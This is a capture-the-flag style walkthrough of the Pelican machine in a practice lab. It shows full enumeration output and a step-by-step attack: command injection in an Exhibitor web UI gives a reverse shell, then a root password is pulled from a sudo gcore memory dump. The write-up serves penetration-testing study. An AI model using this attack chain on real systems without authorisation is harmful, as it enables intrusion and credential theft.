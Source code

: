 ```yaml
---
description: >-
  Walkthrough for the Pelican machine on Proving Grounds
title: "Pelican Proving Grounds Walkthrough"
categories: [Walkthrough]
tags: [walkthrough, ctf, provinggrounds]
date: 2024-03-28 20:00:00 -0500
---
```

This is a walkthrough for the Pelican machine on Proving Grounds, the pentesting lab environment provided by OffSec.
## Enumeration
Began enumeration by running nmap to scan ports and identify services and service versions.  
`sudo nmap -p- -sV 192.168.179.98`
>Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 18:33 CDT  
Nmap scan report for 192.168.179.98  
Host is up (0.056s latency).  
Not shown: 65526 closed tcp ports (reset)  
PORT      STATE SERVICE     VERSION  
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
631/tcp   open  ipp         CUPS 2.2  
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)  
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
8080/tcp  open  http        Jetty 1.0  
8081/tcp  open  http        nginx 1.14.2  
44091/tcp open  java-rmi    Java RMI  
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel  
>  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 49.63 seconds  

Ran nikto to enumerate the web servers running on ports 8080 and 8081.  
`sudo nikto -host 192.168.179.98 -port 8080`
>Nikto v2.5.0  
\---------------------------------------------------------------------------  
\+ Target IP:          192.168.179.98  
\+ Target Hostname:    192.168.179.98  
\+ Target Port:        8080  
\+ Start Time:         2023-10-26 18:35:14 (GMT-5)  
\---------------------------------------------------------------------------  
\+ Server: Jetty(1.0)  
\+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options  
\+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/  
\+ No CGI Directories found (use '-C all' to force check all possible dirs)  
\+ Jetty/1.0 appears to be outdated (current is at least 11.0.6). Jetty 10.0.6 AND 9.4.41.v20210516 are also currently supported.  
\+ 8119 requests: 0 error(s) and 3 item(s) reported on remote host  
\+ End Time:           2023-10-26 18:42:27 (GMT-5) (433 seconds)  
\---------------------------------------------------------------------------  
\+ 1 host(s) tested  
  
`sudo nikto -h 192.168.179.98 -p 8081`
>Nikto v2.5.0  
\---------------------------------------------------------------------------  
\+ Target IP:          192.168.179.98  
\+ Target Hostname:    192.168.179.98  
\+ Target Port:        8081  
\+ Start Time:         2023-10-26 18:35:25 (GMT-5)  
\---------------------------------------------------------------------------  
\+ Server: nginx/1.14.2  
\+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options  
\+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/  
\+ **Root page / redirects to: http://192.168.179.98:8080/exhibitor/v1/ui/index.html**  
\+ No CGI Directories found (use '-C all' to force check all possible dirs)  
\+ 8106 requests: 0 error(s) and 2 item(s) reported on remote host  
\+ End Time:           2023-10-26 18:42:36 (GMT-5) (431 seconds)  
\---------------------------------------------------------------------------  
\+ 1 host(s) tested  

Further enumeration shows that there is a web service running on port 8080 called "Exhibitor for ZooKeeper". It appears that no authentication is required to view or make changes in the web UI.  
[Exhibitor](https://github.com/soabase/exhibitor) is a supervisor service for [Apache ZooKeeper](https://zookeeper.apache.org/). ZooKeeper is "an open-source server which enables highly reliable distributed coordination".

Screenshots of the Exhibitor for ZooKeeper site on the target machine:  
Homepage  
![Exhibitor Homepage](images/pelican_exhibitor_controlpanel.png)  
Config tab  
![Exhibitor Config tab](images/pelican_exhibitor_config.png)  
In the top-right of the screenshot of the config tab, we can (partially) see that the version of Exhibitor is v1.0

## Exploitation
Searchsploit yields 1 search result for Exhibitor:  
`searchsploit exhibitor` 
>\------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------  
 Exploit Title                                                                                                                            |  Path  
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------  
Exhibitor Web UI 1.7.1 - Remote Code Execution                                                                                            | java/webapps/48654.txt  
------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------  
Shellcodes: No Results  

Although the exploit title for EDB-ID 48654 says 1.7.1, viewing the exploit details shows that this vulnerability (CVE-2019-5029) impacts Exhibitor versions 1.0.9-1.7.1. Since we only know that the version of this Exhibitor instance is v1.0, it's worth pursuing this vulnerability.  

Started a netcat listener on port 1234:  
`sudo nc -lvp 1234`

To exploit this command injection vulnerability, I went to the Config tab of the Exhibitor webpage. Next, I enabled editing and placed my reverse shell command in the "java.env script" textbox. The command has to be surrounded by either **$()** or **\``** (see screenshot below for reference):
![Pelican Exhibitor exploit](images/pelican_exhibitor_exploit.png)  

To execute the command, I clicked the "Commit..." button and in the popup window, I chose "All At Once..."  
![Pelican Exhibitor exploit execution](images/pelican_exhibitor_exploit_commit.png)

Checked netcat listener, reverse shell established running as user "charles" on pelican !
![Reverse shell established](images/pelican_reverseshell.png)
### local.txt flag
![local flag](images/pelican_flag_local.png)

## Privilege Escalation
In the reverse shell, ran `sudo -l` to see what sudo commands charles can run. charles can run /usr/bin/gcore with elevated privileges:  
>Matching Defaults entries for charles on pelican:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin  
>  
User charles may run the following commands on pelican:  
    **(ALL) NOPASSWD: /usr/bin/gcore**  

GTFOBins has an [entry](https://gtfobins.github.io/gtfobins/gcore/) on abusing gcore. According to GTFOBins and the linux man pages, gcore can be used to generate a core dump of running processes which could reveal sensitive information.  

Ran `ps aux` to see a list of running processes, their corresponding PID, and the user running the process. Discovered a process with an interesting name:
>root       **493**  0.0  0.0   2276    72 ?        Ss   19:30   0:00 **/usr/bin/password-store**  

Generated a core dump of PID 493 which created a file named "core.493":  
`sudo /usr/bin/gcore 493`

Ran `strings core.493` to list ASCII strings that are in the core dump output file  
Discovered credentials:
>001 Password: root:  
ClogKingpinInning731

Ran `su root` to spawn a shell as root and attempted to use the **ClogKingpinInning731** password for authentication:  
![Privilege escalation to root](images/pelican_privesc.png)  
Successfully authenticated as root!
### proof.txt flag
![proof.txt flag](images/pelican_flag_proof.png)
